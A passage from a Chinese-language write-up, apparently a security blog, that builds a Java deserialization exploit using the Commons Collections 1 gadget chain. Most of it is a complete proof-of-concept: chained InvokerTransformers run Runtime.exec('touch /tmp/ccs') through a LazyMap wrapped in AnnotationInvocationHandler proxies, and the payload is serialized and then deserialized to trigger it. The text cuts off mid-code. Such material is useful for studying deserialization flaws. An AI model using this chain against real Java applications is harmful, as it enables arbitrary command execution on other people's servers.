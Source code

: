 ```
    };
    Transformer chain = new ChainedTransformer(transformers);
    Map map = LazyMap.decorate(new HashMap(), chain);
    map.get(1);
}
```
这里传给最后的`map.get`的参数无所谓，因为`ConstantTransformer#get`只会返回它实例化时传入的参数
![-w762](media/15923231349853/15925758442640.jpg)

### 着手构造最终poc
根据上述信息可以写出如下poc
```
public static void testAnnotationInvocationHandlerPayload() throws Exception {
    // CommonCollections1 gadgets
    Transformer[] transformers = new Transformer[]{
            new ConstantTransformer(Runtime.class),
            new InvokerTransformer("getMethod", new Class[]{String.class, Class[].class},
                    new Object[]{"getRuntime", new Class[0]}),
            new InvokerTransformer("invoke", new Class[]{Object.class, Object[].class},
                    new Object[]{null, new Object[0]}),
            new InvokerTransformer("exec", new Class[]{String.class},
                    new Object[]{"touch /tmp/ccs"})
    };
    Transformer chain = new ChainedTransformer(transformers);
    Map map = LazyMap.decorate(new HashMap(), chain);

    // create dynamic for LazyMap, hook is AnnotationInvocationHandler
    InvocationHandler invocationHandler = (InvocationHandler) Class.forName("sun.reflect.annotation.AnnotationInvocationHandler").getDeclaredConstructors()[0].newInstance(Override.class, map);
    Map proxy = (Map) Proxy.newProxyInstance(
            Test.class.getClassLoader(),
            map.getClass().getInterfaces(),
            invocationHandler
    );

    // use created proxy to construct a new hook(AnnotationInvocationHandler)
    InvocationHandler anotherInvocationHandler = (InvocationHandler) Class.forName("sun.reflect.annotation.AnnotationInvocationHandler").getDeclaredConstructors()[0].newInstance(Override.class, proxy);

    // serialize anotherInvocationHandler to file
    try (ObjectOutputStream os = new ObjectOutputStream(new FileOutputStream("TestAnnotationInvocationHandlerSer"))) {
        os.writeObject(anotherInvocationHandler);
    } catch (Exception e) {
        e.printStackTrace();
    }

    // deserialize
    try (ObjectInputStream is = new ObjectInputStream(new FileInputStream("TestAnnotationInvocationHandlerSer"))) {
        InvocationHandler deserializeFilePayload = (InvocationHandler) is.readObject();
    } catch (IOException | ClassNotFoundException e) {
```